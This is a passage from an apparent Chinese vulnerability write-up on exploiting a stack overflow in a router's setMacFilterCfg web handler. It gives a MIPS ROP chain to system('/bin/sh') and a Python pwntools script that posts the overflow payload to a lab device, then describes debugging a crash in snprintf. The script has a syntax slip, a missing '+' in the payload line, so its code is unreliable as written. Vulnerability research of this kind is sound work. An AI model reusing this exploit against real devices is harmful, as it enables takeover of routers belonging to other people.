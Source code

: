   
00060530+base就作为gadget1。  
  
   
  
我们根据上面的代码，根据栈偏移，控制对$ra，$s1，$s0的赋值，最终rop链为  
```
b"\r" +  b"A" * 472 + p32(gadget1)+b"A"*24+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)
```  
  
  
  
报错解决即溯源  
  
  
用上面的exp打一下，会报错。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYia9vwRWCSlwpdvzwbjvwk0icEmFM8ic9vAxqb0ViaicnZ35ialibzqt6oAy9w/640?wx_fmt=png "")  
  
这里爆了个访问错误，$v0应该是个地址，但是变成了我们的0x41414141。  
  
   
  
通过我们之前验证是否能到system函数可知，只覆盖返回地址是可以的，虽然会把上一级函数fp给覆盖掉，但是我们也不需要返回到上一级函数了。  
  
   
  
使用ida调试，最终发现会在set_macfilter_rules_by_one函数中snprintf函数报错。  
```
snprintf(v5, 0x80u, "macfilter.%s.list%d", a1, a3);
```  
  
  
  
为了区别我用下面的exp打一下。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
#libc_base=0x7f583a08-0x0005F804
 
libc_base=0x7f58452c-0x0006052C
lib=0x7F524000
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(gadget1)b"bbbb"+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
ida远程调试。  
  
   